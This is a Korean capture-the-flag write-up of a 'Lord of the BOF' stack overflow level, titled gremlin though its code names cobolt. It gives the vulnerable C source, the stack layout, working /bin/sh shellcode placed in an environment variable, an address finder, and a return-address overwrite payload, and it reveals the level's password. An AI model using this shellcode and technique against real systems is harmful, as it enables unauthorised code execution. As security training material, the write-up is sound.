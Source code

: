 ============================================================================================================
[lob] gremlin
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :환경 변수 쉘코드 등록;

    :환경 변수 주소값 확인;

    :RET 주소를 환경 변수 주소로 변경하여 공격 진행;
    
    stop

    @enduml

|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
    */

    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Memory Structure
============================================================================================================

스택에 다음과 같이 들어가게 됩니다.

.. code-block:: console

	===============
	LOW     
	---------------
	Buffer  (16byte) <- argv[1]
	SFP     (4byte)
	RET     (4byte)
	---------------
	HIGH    
	===============

|

Segmentation fault
============================================================================================================

버퍼오버플로우가 일어나는 지점을 확인합니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./cobolt `python -c "print 'a'*16"`
    aaaaaaaaaaaaaaaa
    $ ./cobolt `python -c "print 'a'*20"`
    aaaaaaaaaaaaaaaaaaaa
    Segmentation fault

|

exploit
============================================================================================================

환경 변수 쉘코드 등록
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c
    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode
    address 0xbfffff01

|

RET 주소를 환경 변수 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    $ ./cobolt `python -c 'print "\x90"*20+"\x01\xff\xff\xbf"'`

    bash$ whoami
    cobolt
    bash$ my-pass
    euid = 502
    hacking exposed



